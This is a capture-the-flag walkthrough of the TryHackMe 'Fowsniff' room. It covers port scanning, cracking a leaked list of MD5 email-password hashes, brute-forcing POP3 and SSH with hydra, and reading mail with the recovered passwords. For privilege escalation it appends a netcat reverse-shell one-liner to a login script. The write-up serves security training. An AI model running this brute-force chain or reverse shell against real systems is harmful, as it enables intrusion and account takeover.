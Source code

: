 # Fowsniff CTF

**Room Link:** [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The homepage mentioned there was an attack. If you go to their twitter page the hacker says he dumped all the users password in pastebin. When I did this writeup the pastebin had been taken down so I just took it from another walkthrough.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

```



**Kali**



```
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>



```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```







### TCP/110 - POP3

**Kali**

```
hydra -L users2 -P pass.txt -f $VICTIM pop3 -V
```

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 1
```

<figure><img src="../../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 2
```

<figure><img src="../../.gitbook/assets/image (30) (1) (2).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -L users2 -p "S1ck3nBluff+secureshell" $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (37) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
id
groups
find / -type f -group users 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f" >> /opt/cube/cube.sh
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>





























